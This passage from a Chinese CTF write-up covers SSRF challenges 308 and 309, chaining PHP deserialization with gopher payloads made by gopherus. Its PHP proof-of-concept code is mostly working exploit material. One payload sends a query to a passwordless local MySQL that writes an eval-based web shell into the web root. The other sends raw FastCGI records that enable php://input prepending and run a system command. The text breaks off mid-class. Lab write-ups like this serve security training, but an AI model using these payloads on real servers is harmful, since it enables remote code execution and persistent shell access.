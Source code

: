 类似308，ssrf的payload用gopherus生成就好

`ps：看309提示,猜测这里打的是无密码的mysql，但具体不知咋测~`

![](https://i.loli.net/2021/10/06/LfPW7mFKio2nMSr.png)

poc：

```php
<?php

class config{
    public $update_url = 'gopher://127.0.0.1:3306/_%a3%00%00%01%85%a6%ff%01%00%00%00%01%21%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%72%6f%6f%74%00%00%6d%79%73%71%6c%5f%6e%61%74%69%76%65%5f%70%61%73%73%77%6f%72%64%00%66%03%5f%6f%73%05%4c%69%6e%75%78%0c%5f%63%6c%69%65%6e%74%5f%6e%61%6d%65%08%6c%69%62%6d%79%73%71%6c%04%5f%70%69%64%05%32%37%32%35%35%0f%5f%63%6c%69%65%6e%74%5f%76%65%72%73%69%6f%6e%06%35%2e%37%2e%32%32%09%5f%70%6c%61%74%66%6f%72%6d%06%78%38%36%5f%36%34%0c%70%72%6f%67%72%61%6d%5f%6e%61%6d%65%05%6d%79%73%71%6c%46%00%00%00%03%73%65%6c%65%63%74%20%27%3c%3f%70%68%70%20%65%76%61%6c%28%24%5f%50%4f%53%54%5b%31%5d%29%3b%3f%3e%27%20%69%6e%74%6f%20%6f%75%74%66%69%6c%65%20%27%2f%76%61%72%2f%77%77%77%2f%68%74%6d%6c%2f%61%2e%70%68%70%27%3b%01%00%00%00%01';
}

class dao{
    private $config;
        public function __construct(){
        $this->config=new config();
    }
}


$a = new dao();
echo base64_encode(serialize($a));
```



## 309 ssrf-fastcgi

> 需要拿**shell**，308的方法不行了,mysql 有密码了

mysql有密码了，看了一下yu师傅的wp：

> 打的是fastcgi，可以通过gopher协议的延时判断:
>
> ```
> gopher://127.0.0.1:9000
> ```

那么还是gopherus生成payload

![](https://i.loli.net/2021/10/06/Q4K1zFBkwagtfIp.png)

poc:

```php
<?php

class config{
    public $update_url = 'gopher://127.0.0.1:9000/_%01%01%00%01%00%08%00%00%00%01%00%00%00%00%00%00%01%04%00%01%00%F6%06%00%0F%10SERVER_SOFTWAREgo%20/%20fcgiclient%20%0B%09REMOTE_ADDR127.0.0.1%0F%08SERVER_PROTOCOLHTTP/1.1%0E%02CONTENT_LENGTH58%0E%04REQUEST_METHODPOST%09KPHP_VALUEallow_url_include%20%3D%20On%0Adisable_functions%20%3D%20%0Aauto_prepend_file%20%3D%20php%3A//input%0F%09SCRIPT_FILENAMEindex.php%0D%01DOCUMENT_ROOT/%00%00%00%00%00%00%01%04%00%01%00%00%00%00%01%05%00%01%00%3A%04%00%3C%3Fphp%20system%28%27tac%20f%2A%27%29%3Bdie%28%27-----Made-by-SpyD3r-----%0A%27%29%3B%3F%3E%00%00%00%00';
}   

class dao{
```